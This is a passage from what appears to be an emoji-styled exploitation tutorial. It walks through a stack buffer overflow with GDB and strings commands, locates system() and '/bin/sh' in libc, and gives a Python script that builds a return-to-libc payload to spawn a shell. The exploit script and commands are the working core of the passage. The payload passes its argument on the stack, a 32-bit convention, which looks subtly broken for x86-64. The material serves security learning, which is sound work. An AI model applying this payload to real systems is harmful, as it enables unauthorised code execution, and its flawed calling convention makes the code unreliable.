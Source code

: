 📌 **Check `rip` in GDB:**  
```gdb
info registers
```
👀 Example output:  
```
rip = 0x6b6a696867666564
```
📌 **Convert it back to ASCII to find the offset:**  
```bash
python3 -c 'print(bytes.fromhex("6b6a696867666564")[::-1])'
```
🔥 **This tells us exactly how many bytes are needed before overwriting `rip`!**  

---

## **🛠 Step 8: Exploit It and Spawn a Shell**
### **1️⃣ Find `system()` and `/bin/sh`**
📌 **Find `system()` in GDB:**  
```gdb
p/x system
```
👀 Example output:
```
$1 = 0x7ffff7c50d70
```
📌 **Find `/bin/sh` manually:**  
```bash
strings -a -t x /usr/lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
```
👀 Example output:
```
1b45bd /bin/sh
```
📌 **Convert this to an actual memory address:**  
```bash
python3 -c 'print(hex(0x7ffff7c00000 + 0x1b45bd))'
```
👀 Example output:
```
0x7ffff7db45bd
```
✅ **Now we have `system()` and `/bin/sh` addresses!**  

---

### **2️⃣ Build the Final Exploit**
📌 **Modify `construct_exploit.py`**
```python
import struct

offset = <YOUR_EXACT_OFFSET>  # Adjust based on GDB findings
system_addr = 0x7ffff7c50d70  # Replace with correct system() address
binsh_addr = 0x7ffff7db45bd  # Replace with correct /bin/sh address
ret_addr = 0x0000000000000000  # Placeholder return address

payload = b"A" * offset         # Fill buffer up to `rip`
payload += struct.pack("<Q", system_addr)  # Overwrite return address with system()
payload += struct.pack("<Q", ret_addr)  # Fake return address (optional)
payload += struct.pack("<Q", binsh_addr)  # Argument to system()

print(payload.decode("latin1"))
```
